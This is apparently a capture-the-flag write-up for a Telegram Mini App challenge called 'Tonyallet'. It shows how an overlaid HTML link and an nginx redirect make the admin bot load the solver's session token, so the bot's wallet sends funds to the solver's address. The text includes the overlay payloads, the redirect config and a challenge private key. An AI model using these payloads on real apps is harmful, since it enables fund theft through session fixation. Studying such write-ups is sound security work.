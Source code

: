 # Tonyallet

- Category: Web / XSS
- Date: September 2024
- Difficulty: medium

## Description
We have a [Telegram Mini App](https://core.telegram.org/bots/webapps) hosted on `https://tonyallet-us.ctf.so` that has functionality to create posts and retrieve them. Posts can be reported from `https://tonyallet-us-report.ctf.so/` by submitting their ID which the admin bot visits later. Our objective is to exploit a XSS to replace the admin bot's displayed wallet address with ours so that it later sends funds to us instead of their address.

![mini app](assets/miniapp.png?raw=true "Telegram Mini App")

### Task
The [provided document](./assets/Tonyallet.pdf) explains that we need our wallet balance to increase in order to get the flag.

By inspecting network requests we can see that when the app fetches `https://tonyallet-us.ctf.so/wallet` with your authorization header, the JSON response looks like this:
```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.0",
  "flag": "NO FLAG FOR U"
}
```

### Looking at the bot's code
Let's start backwards by immediately looking at the [provided selenium code](./code/bot.py) to understand precisely what the admin bot does after we report a post. The bot does not use telegram but instead visits `tonyallet-us.ctf.so` directly.

```py
wallet_address = selenium_obj.find_element(By.ID, "walletAddress").text
if not re.match(r"^0x[a-fA-F0-9]{40}$", wallet_address):
  return "Failed to get wallet address"
# send 0.1 ether to the wallet address
os.system(f"cast send --private-key {os.getenv('PRIVATE_KEY')} {wallet_address} --value 0.1ether --rpc-url {os.getenv('RPC_URL')}")
```

This code in the end is of interest because it is sending tokens to `wallet_address` which is obtained from the content of an HTML tag with id `walletAddress`. The HTML page in question is `selenium_obj.get(f"{host}/#tgWebAppData=" + open("tgWebApp.txt").read())` where host is `host = f"https://tonyallet-us.ctf.so"`.

### Looking at the mini app's source

Let's have a look at it's [source](./assets/index.html). The page contains a JavaScript function called [getWallet](./assets/index.html#L127) which is called when it loads.

```javascript
async function getWallet(bypass=false) {
  let localAddress = localStorage.getItem("walletAddress")
  if (localAddress && !bypass) {
    document.getElementById('walletAddress').textContent = localAddress;
    return
  }
	...
```

If we could execute custom JavaScript code on the admin's client-side to set the local storage of key `walletAddress` to ours it would be great but upon further investigation it did not appear to be possible to inject custom JavaScript code. Here it is important to note that localStorage keys are unique to each website. It is also important to note that selenium [starts with a fresh local storage](https://stackoverflow.com/questions/48841127/localstorage-in-selenium-webdriver) each time it runs.

Therefore, we could assume that the first time this page is opened by the bot the `localAddress` is null and so the function would continue executing this code:

```javascript
const response = await fetch(`/wallet`, {
  method: 'GET',
  headers: {
    'Authorization': tg.initData
  }
});
const data = await response.json();
document.getElementById('walletAddress').textContent = data.address;
localStorage.setItem("walletAddress", data.address);
```

`tg.initData` can be considered as a unique token for a telegram account and `https://tonyallet-us.ctf.so/wallet` uses it to send you your corresponding wallet address. By looking at the [bot's code](./code/bot.py#L41) and the [telegram script included in the HTML file](https://telegram.org/js/telegram-web-app.js) it appears that `tg.initData` can be controlled via a URL hashtag parameter called `tgWebAppData`. This means that if could get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, then when the bot executes the above code it will receive our address and set it to it's localStorage.

## Exploit

The app is [vulnerable to XSS](./assets/index.html#L177) on `/` but only if you click retrieve post and the bot doesn't do this. Instead, the bot visits `/post?id=<our id>` which returns [this HTML](./assets/post.html). Since that page uses [DOMPurify.sanitize](./assets/post.html#L111) it is theoretically impossible to directly inject any JavaScript there. We are, however, free to put several HTML tags with any kind of CSS. Notice that the bot [clicks](./code/bot.py#L35) at coordinates `(screen width / 2, 10)` in order to hit the back button. Since our goal is to get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, we could use this payload:

```html
<div style="position: fixed; top: 0; left: 0; width: 100%; z-index: 1000; font-size: 20px; line-height: 1;">
<a href="https://tonyallet-us.ctf.so/#tgWebAppData=<our token>" style="display: block; margin-top: -10px;">
gogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogo
</a>
</div>
```

This covers the back button with our link that redirects to the URL we specify. [https://webhook.site/](https://webhook.site/) was useful for testing that the bot clicks on it.
![mini app](assets/posts.png?raw=true "Malicious vs normal post")

However, this did not work and you can see why by clicking on our malicious button locally (nothing happens). Since we are redirecting to a hashtag parameter on the same domain, the browser (tested on Firefox) does not reload the page because hashtag parameters are only relevant client-side. In order to trigger a reload, we must redirect to an external page we control which in turn redirects to `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`. A service like [https://tinyurl.com/](https://tinyurl.com/) can likely be used but for this solution a private server with nginx was configured.

```
server {
  listen 443 ssl;
  server_name <redacted>;
	...

  location / {
    return 301 https://tonyallet-us.ctf.so/#tgWebAppData=query_id...;
  }
}
```

`href=` in the HTML payload was changed to point to the server using it's domain. In this way, our server tells browsers via 301 status code to redirect to the `tonyallet-us.ctf.so` URL with our token. It was required to URL encode the token.

After submitting the updated payload, our balance increases and we get the flag from `GET /wallet`.

```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.1",
  "flag": "blaz{TGAPP_CAN_BE_HACKED_REALLY_BAD_:P}"
}
```

### A simpler alternative
Instead of setting up a redirection, it was possible to instead add any GET parameter to the URL. This would have been enough to cause a browser to reload the page. The `<a>` tag in the payload would have changed from this
```html
<a href="https://<our-controlled-server>" style="display: block; margin-top: -10px;">
```

to this
```html
<a href="https://tonyallet-us.ctf.so/?someparam=123#tgWebAppData=<our token>" style="display: block; margin-top: -10px;">
```
